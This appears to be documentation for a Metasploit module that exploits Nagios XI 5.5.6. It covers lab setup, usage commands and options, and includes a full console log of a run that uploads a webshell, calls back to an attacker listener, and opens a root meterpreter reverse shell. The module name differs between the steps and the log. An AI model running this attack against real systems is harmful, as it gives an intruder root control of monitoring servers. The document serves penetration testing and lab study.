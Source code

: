 ## Vulnerable Application

Nagios XI 5.5.6 Root Remote Code Execution

The exploit works as follows:

- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server. Therefore, the local HTTPS server must be reachable from outside your private network (except if the Nagios server is in the same network as yours obviously), this is what the RSRVHOST and RSRVPORT options are for. The malicious request allows for file upload. A PHP webshell and a meterpreter executable are uploaded.
- A command is executed thanks to the webshell. This command elevates privileges and run the meterpreter executable, giving us a meterpreter session.

# Creating A Testing Environment

- Install a Ubuntu Linux LTS (I used 18.04 LTS for my tests) in a VM.
- Download Nagios XI 5.5.6 from the official website (https://www.nagios.com/downloads/nagios-xi/older-releases/).
- Follow the official instructions to install it on your Ubuntu VM (https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

# Verification Steps

1. `use exploit/linux/http/nagios_xi_root_rce`
2. `set RHOSTS [IP]`
3. `set RSRVHOST [IP]`
4. `exploit`

A meterpreter session should have been opened successfully and you should be root

# Options

## RSRVHOST

IP at which your local HTTPS can be reached. Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

## RSRVPORT

Port that will forward to your local HTTPS server.

## SRVHOST

IP of your local HTTPS server (must be a local IP).

## SRVPORT

Port to listen to for your local HTTPS server.

# Scenarios

## Nagios 5.5.6 on Ubuntu 18.04 LTS

```
msf5 exploit(linux/http/nagios_xi_magpie_debug) > show options

Module options (exploit/linux/http/nagios_xi_magpie_debug):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  5                no        Number of seconds the web server will wait before termination
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.135.129   yes       The target address range or CIDR identifier
   RPORT      443              yes       The target port (TCP)
   RSRVHOST   172.16.135.1     yes       A public IP at which your host can be reached (e.g. your router IP)
   RSRVPORT   8080             yes       The port that will forward to the local HTTPS server
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.135.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI 5.5.6


msf5 exploit(linux/http/nagios_xi_magpie_debug) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.135.1:4444 
msf5 exploit(linux/http/nagios_xi_magpie_debug) > [*] Using URL: https://0.0.0.0:8080/ixFonv2
[*] Local IP: https://192.168.0.21:8080/ixFonv2
[*] Server started.
[*] nZOnJhGnMb.php uploaded with success!
[*] Using URL: https://0.0.0.0:8080/mTwEwHtAuz0V
[*] Local IP: https://192.168.0.21:8080/mTwEwHtAuz0V
[*] Server started.
[*] SQmBobwBzw uploaded with success!
[*] Sending stage (985320 bytes) to 172.16.135.129
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.129:33090) at 2019-06-25 16:13:01 -0500
[+] Deleted /usr/local/nagvis/share/nZOnJhGnMb.php
[+] Deleted /usr/local/nagvis/share/SQmBobwBzw
[!] This exploit may require manual cleanup of '/var/tmp/mtrhbwFZHa.nse' on the target
[*] Server stopped.

msf5 exploit(linux/http/nagios_xi_magpie_debug) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 172.16.135.129
OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
